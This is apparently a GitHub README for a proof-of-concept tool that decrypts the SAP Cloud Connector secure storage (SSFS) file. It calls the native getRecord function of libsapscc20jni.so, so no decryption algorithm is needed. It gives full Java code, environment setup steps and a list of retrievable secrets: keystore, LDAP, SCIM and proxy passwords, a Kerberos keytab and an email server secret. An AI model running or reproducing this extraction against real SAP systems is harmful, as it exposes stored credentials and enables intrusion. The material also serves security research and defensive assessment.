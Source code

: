 # SAP_Cloud_Connector_SSFS_Decryption
This repository offers a Proof of Concept (PoC) for decrypting SAP Cloud Connector SSFS. The core feature of this PoC is the exploitation of an exported function - getRecord, present in the libsapscc20jni.so file. The advantage is that you can decrypt the SSFS properties values WITHOUT REVERSING THE ECRYPTION ALGORITHM.

![image](https://github.com/redrays-io/SAP_Cloud_Connector_SSFS_Decryption/assets/7976421/9ad06d58-f85b-4735-b4a3-974308698f57)


To begin, you are required to download the SSFS file from the SAP Server to your personal device. As an instance, in my case, the SSFS was stored at this location on my laptop: /home/vah13/research/SSFS_SCC.DAT.
Before initiating the decryption process, it is necessary to define two parameters in the environment:

The SAP System ID (SID). Set it with this command: export SAPSYSTEMNAME=SCC.
The pathway to SSFS excluding the complete filename. Set it with this command: export RSEC_SSFS_DATAPATH=/home/vah13/research/SSFS.
It's important to utilize the libsapscc20jni.so library.
You can now compile and run the following code to decrypt the SSFS:
```java
package com.sap.scc.jni;  // the package must be com.sap.scc.jni

import java.io.IOException;
import java.util.Properties;

public class SecStoreAccess { // the class name must be SecStoreAccess
  
  static synchronized native char[] getRecord(final String p0) throws SecStoreAccessException, IllegalArgumentException;
  
  public static void main(String[] args) throws IOException {
    if (args.length > 1 )
    {
      System.out.print("java -jar decode.jar");
    }
    
    System.load("/usr/lib/libsapscc20jni.so");
    try
    {
      /* 
      available parameters for getRecord function
      
      "CLOUD_CONN/JAVA_KEYSTORE_PASSWORD";
      "CLOUD_CONN/SCIM_SERVICE_USER_PASSWD";
      "CLOUD_CONN/LDAP_SERVICE_USER_PASSWORD";
      "CLOUD_CONN/PROXY_PASSWORD";
      "CLOUD_CONN/KERBEROS_KTAB";
      "CLOUD_CONN/SYSTEM_CERTIFICATE";
      "CLOUD_CONN/ALERT_EMAIL_SERVER_SECRET";
      */      
      char[] result = getRecord("CLOUD_CONN/JAVA_KEYSTORE_PASSWORD");
      System.out.println(new String(result));
    
      }catch (Exception e)
    {
      e.printStackTrace();
    }
  }

}
```
![image](https://user-images.githubusercontent.com/7976421/202764294-14d66338-b94f-4825-8fec-cb673f46e15c.png)

